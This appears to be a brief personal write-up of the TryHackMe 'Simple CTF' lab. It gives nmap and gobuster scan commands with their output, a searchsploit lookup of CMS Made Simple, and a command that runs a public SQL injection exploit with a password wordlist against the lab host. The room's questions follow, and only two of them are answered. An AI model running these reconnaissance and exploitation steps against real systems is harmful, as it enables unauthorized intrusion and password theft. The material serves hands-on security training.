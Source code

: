 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


#### nmap scan
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`



#### search for exploits

`searchsploit cms made simple`

```
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                                                                      | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection <------- Using this one                                                                                                                                                     | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target
`/usr/bin/python2 exploit.py -u http://10.10.90.196 --crack -w /usr/share/wordlists/rockyou.txt`




Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH


Q: What's the CVE you're using against the application?
Q: To what kind of vulnerability is the application vulnerable?
Q: What's the password?
Q: Where can you login with the details obtained?
Q: What's the user flag?
Q: Is there any other user in the home directory? 
Q: What's its name?
Q: What can you leverage to spawn a privileged shell?